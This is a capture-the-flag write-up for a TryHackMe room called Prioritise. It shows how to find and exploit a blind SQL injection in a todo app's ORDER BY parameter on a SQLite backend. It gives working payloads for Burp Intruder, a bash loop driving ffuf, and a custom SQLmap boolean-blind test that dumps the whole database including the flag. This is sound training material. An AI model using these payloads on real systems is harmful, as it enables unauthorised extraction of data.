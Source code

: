 # Prioritise

https://tryhackme.com/room/prioritise

A medium rated room.

A reasonably simple room, in that there is only really one thing you need to exploit to get the flag. However, that single exploit can be a bit tricky and time consuming, and it took me around six hours haha, largely because I refused to accept Sqlmap wouldn't do it for me (it doesn't seem to be possible with raw Sqlmap) - when I finally gave up and tried to exploit this manually, it worked straight away. That being said, I did *eventually* also figure out how to do this with SQLmap, and another way too, so I am going to cover all three approaches.

First, the room enumeration: there are two ports open, 22 and 80. On 80 is a simple website allowing you to create todo items. You can also delete created items, and order them. Ordering them is of particular interest because its the only way the output can be affected with a GET request, and because if you change the value in the `?order=` querystring, the site will crash. The default values are `title`, `done` and `date` - if you change it to `id` which is not an option, it works, and also if you create a few items with different dates and then pass `?order=date+desc` or `?order=date+asc` you can affect the result. Therefore, this looks like SQL Injection via the order parameter. Note that you need to create at least one item in order to use this parameter.

ORDER BY sql injection has some caveats: one advantage (which is not necessary here) is that you can use it to determine column count: pass numbers from 1 to 4 and the site will work, five and beyond and it will crash. The problem with ORDER BY is that it results in blind injection: you cant add a UNION after an order by, and nothing you inject in an order by will reflect to the results. You can however pass a nested SELECT statement, e.g `?order=(SELECT * FROM todos)` and while this won't affect the output, if that statement is valid the page will load, else it will crash.

This is enough to help fingerprint the database: passing `?order=(SELECT @@version)` crashes, which means the backend ISN'T MySQL or MariaDB. It also means it is not MSSQL. Going through various databases, `?order=(SELECT sqlite_version())` works, no crash, so the backend is a SQLite database.

At this point, a list of possible injections for SQLite can be useful. This list from the swisskeyrepo is very useful: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md. In fact, a simple boolean based blind can be achieved with `?order=(CASE WHEN 1=1 THEN title ELSE date END)` - it'll order by title, and if you change 1=1 to 1=0, it'll order by date. On top of that, change it to `?order=(CASE WHEN 1=1 THEN title ELSE load_extension(0) END)` and it will crash when 1=0, another boolean based blind (with an error).

As this is a trivial injection though, and [SQLMap](https://sqlmap.org/) should support this, right? `sqlmap -u http://[IPADDRESS]/?order=title` finds nothing though, order is not vulnerable. I messed around with risk, levels, various techniques and so on but try as I might, it wouldn't work. Eventually I did manage to get it to pickup a heavy time based blind, but that was wrong - this doesn't require a timing attack, right? I spent *hours* trying to get SQLmap to do this, digging deep into how the tool works:

- in the default case, where you alternate between two different ordering params, the output size is the same. SQLMap will not inspect the entire response byte by byte or by hash to determine differences
- there is a test in SQLmap which would similar the issue, but it uses `(CASE WHEN [INFERENCE] THEN [RANDNUM] ELSE NULL END)`, which will not alter the output significantly.
- if a custom payload is used (something I learned about for this room), e.g. `(CASE WHEN [RANDNUM]=[RANDNUM] THEN [RANDNUM] ELSE load_extension(0) END)` this will cause a crash, which SQLmap by default will handle as a failure in its work not an indicator of a boolean blind
- you might think you might be able to make an error-based injection here, but in SQLmap thats an attack that involves extracting output from the error message, not a blind attack - here the error message is a bland 500 error page

In short, SQLmap supports by default boolean based blinds where the output size changes in each case, and error based blinds where the error message contains content. Neither works in this room.

## Solutions

I figured out three ways of doing this: two with the same technique but with different tools, and one with SQLmap

### Solution 1: Use Burp Suite Professional (if you own it) - or community if you have infinite patience

Burp Suite Intruder can use a technique listed at https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---extract-info-order-by. This was how I first solved the room.

- Fire up burp and send a normal request to the site. Send the request to Intruder
- Under 'Positions', change the attack type to 'Cluster Bomb'. Change the request URL line to: `GET /?order=(CASE+WHEN+(SELECT+hex(substr(sql,§1§,1))+FROM+sqlite_master+WHERE+type%3d'table'+and+tbl_name+NOT+like+'sqlite_%25'+limit+1+offset+0)+%3d+hex('§some_char§')+THEN+id+ELSE+load_extension(0)+END)`. Note the two positions: `§1§` in the position of the substr function, and `§some_char§` in the comparison to the character at that position.
- You need two payload sets: the first can be of type numbers, 1 to 50 for example, while the second can be a custom 'simple list', containing all letters and numbers
- Run the attack - it might be advisable to up the resource to do something like 50 concurrent requests, if you have professional and can do this.
- As the attack is running, change the filter to hide 500 errors. If you sort by the first payload you will see you can extract the result one character at the time.

The script above uses the `select sql from sqlite_master` to extract the databases specification. This allows you to find table names, finding there is a table named flag with a field named flag, where you can extract the content using the same technique (change it to something like `(CASE WHEN (SELECT hex(substr(flag,1,1)) FROM flag) = hex('B') THEN id ELSE load_extension(0) END)`, url encoded.

### Solution 2: use FFUF from the attack box

If you dont have a corp willing to buy you $700NZD of burp suite professional, you can perform the same attack as solution 1 with ffuf.

1. you need a wordlist for the characters, like with burp. This can be created with the `crunch` tool: `crunch 1 1 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 > wordlist`
2. while ffuf supports multiple wordlists, getting this to work for me was a bit tricky, so instead I used a simple bash op:

```bash
for i in {1..40}; do ffuf -u "http://10.10.73.252/?order=(CASE%20WHEN%20(SELECT%20hex(substr(flag,$i,1))%20FROM%20flag)%20=%20hex('FUZZ')%20THEN%20id%20ELSE%20load_extension(0)%20END)" -w wordlist -ignore-body 2>/dev/null >> result; done
```

What this does is, for each number in 1 to 40, call ffuf with the same payload we used in burp. The wordlist is the chars we created - by default ffuf will only find the single result where the code is 200, ignoring all the errors. We pass the flag -ignore-body as we are only interested in the headers (might make this easier) and hide stderror via `2>/dev/null` - this is done because, very usefully, ffuf prints its ascii header and status messages to stderror precisely so you can hide them if you want. Finally the result (the single 200 code found) is appended to the result file.

3. Each line in the result file will be something like `f                       [Status: 200, Size: 4349, Words: 0, Lines: 0]`, with there being some unprintable characters (seen with `xxd result`) before that `f`. These can be extracted, and then turned into a single like with `cut -c6 result | tr -d '\n'` - the first apparent character on each line was the sixth character.

### Solution 3: SQLmap

To get SQLmap working, there are two things that need to be done: you need a custom payload that will trigger an 'error based blind', and you need it to not treat 500 errors as operational failures.

1. To ignore 500s, there is the simple parameter I somehow missed entirely, `--ignore-code=500`
2. To create the custom payload, I took a look at `/usr/share/sqlmap/xml/payloads/`, where the various payloads SQLmap uses are. What I wanted was a boolean based blind with a case statement, and I had seen some syntax that was very similar to what I could do manually in the output of SQLmap (`-v 5` will show you exactly what its running)
3. Grepping for CASE in `/usr/share/sqlmap/xml/payloads/boolean_blind.xml` I found an appropriate blind around position 1040:

```xml
    <test>
        <title>Boolean-based blind - Parameter replace (CASE)</title>
        <stype>1</stype>
        <level>2</level>
        <risk>1</risk>
        <clause>1,3</clause>
        <where>3</where>
        <vector>(CASE WHEN [INFERENCE] THEN [RANDNUM] ELSE NULL END)</vector>
        <request>
            <payload>(CASE WHEN [RANDNUM]=[RANDNUM] THEN [RANDNUM] ELSE NULL END)</payload>
        </request>
        <response>
            <comparison>(CASE WHEN [RANDNUM]=[RANDNUM1] THEN [RANDNUM] ELSE NULL END)</comparison>
        </response>
    </test>
```

The problem with the above is that that `ELSE NULL` would not trigger a change in the response. I could force it to `ELSE title` or date or whatever, but again, SQLmaps comparison function would see two pages with the same content length and assume it was not working.

HOWEVER, with the ability to force SQLmap to treat 500 errors as valid response via that ignore-code parameter, if I could modify the above to force an exception, I could have a working boolean blind:

```xml
    <test>
        <title>CUSTOM Boolean-based blind - Parameter replace (CASE)</title>
        <stype>1</stype>
        <level>2</level>
        <risk>1</risk>
        <clause>1,3</clause>
        <where>3</where>
        <vector>(CASE WHEN [INFERENCE] THEN [RANDNUM] ELSE load_extension(0) END)</vector>
        <request>
            <payload>(CASE WHEN [RANDNUM]=[RANDNUM] THEN [RANDNUM] ELSE load_extension(0) END)</payload>
        </request>
        <response>
            <comparison>(CASE WHEN [RANDNUM]=[RANDNUM1] THEN [RANDNUM] ELSE load_extension(0) END)</comparison>
        </response>
    </test>
```

I changed NULL to `load_extension(0)`, which is a disabled function in the db and even if it wasn't, 0 isn't a valid parameter for it. This triggers a 500 error. Note that I also prepended `CUSTOM` to the title, this allows me to filter it.

4. Finally, running SQLmap like: `sqlmap -u http://10.10.73.252/?order=1 --test-filter=CUSTOM --ignore-code=500 -a` **immediately** returns a detection hit. In fact, the `-a` or 'all' parameter will then proceed to dump the entire contents of the SQLite instance, including the flag :) Very easy, very quick

## Conclusion

Overall, a room where I tried too hard to automate when I should have just approached it manually, but which I am glad I did faff about in as I learned a hell of a lot about how SQLmap works, a very useful tool in any hacker's arsenal.
